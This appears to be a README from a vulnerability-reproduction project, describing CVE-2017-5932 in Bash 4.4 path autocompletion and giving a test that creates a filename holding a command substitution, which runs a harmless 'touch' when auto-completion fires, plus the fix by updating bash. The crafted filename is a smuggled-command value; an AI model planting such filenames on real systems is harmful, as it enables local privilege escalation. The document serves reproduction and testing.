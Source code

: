 # CVE-2017-5932

### Description
The path autocompletion feature in Bash 4.4 allows local users to gain privileges via a crafted filename starting with a " (double quote) character and a command substitution metacharacter.
### Command to run
```shell
python decret.py --number 2017-5932 --release bullseye --directory bash --selenium
```

### Simple testing method

```shell
su toto
cd
ls # no files
touch '" $(touch it_works)'
rm \" $(touch it_works) ^C #Type auto-completion key after " and then cancel 
ls
```
The file `it_works` is created.

If bash is updated :
```shell
apt-get install bash
```
The vulnerability is fixed.